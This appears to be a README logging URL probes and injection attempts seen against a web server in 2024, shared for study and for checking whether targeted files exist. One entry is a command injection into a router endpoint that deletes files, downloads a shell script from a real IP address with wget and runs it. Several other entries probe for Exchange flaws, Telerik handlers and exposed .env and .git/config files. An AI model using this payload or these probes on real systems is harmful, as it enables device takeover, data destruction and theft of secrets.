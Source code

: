 # h@ck-attempts - 2024
URL injecting attempts to watch out for...
- I do not support these actions. This is used for studying and observing.
- Use the ```is-file-on-server.html``` to determine if you have these files on your server.
## ATTEMPTS:
```
1. ../cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F94.156.8.244%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh)
2. ../autodiscover/autodiscover.json?@zdi/Powershell
3. ../owa/auth/x.js
4. ../backup/.git/config
5. ../log/.git/config
6. ../doc/.git/config
7. ../autodiscover/autodiscover.json?@1337.com/owa/?&Email=autodiscover/autodiscover.json%3F@1337.com
8. ../Telerik.Web.UI.WebResource.axd?type=rau
9. ../WebInterface/
10. ../sugar_version.json
11. ../icons/sphere1.png
12. ../static/historypage.js
13. ../cgi-bin/authLogin.cgi
14. ../remote/login
15. ../sitecore/shell/sitecore.version.xml
16. ../js/NewWindow_2_all.js
17. ../cf_scripts/scripts/ajax/ckeditor/ckeditor.js
18. ../showLogin.cc
19. ../webfig/
20. ../cgi-bin/config.exp
21. ../solr/
22. ../api/session/properties
23. ../.env
24. ../owa/auth/logon.aspx
25. ../Temporary_Listen_Addresses
26. ../ews/exchanges/
27. ../ews/exchange%20/
28. ../ews/autodiscovers/
29. ../autodiscover/autodiscover%20/
30. ../ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application
```
## Shadow Server Attempts (shadowserver.org)
```
1. ../vpn/index.html
2. ../geoserver/web/
3. ../.git/config
4. ../favicon.ico
```
## Linkedn Url Attempts
```
1. ../wp-content/plugins/chp-ads-block-detector/assets/img/icon.png
```
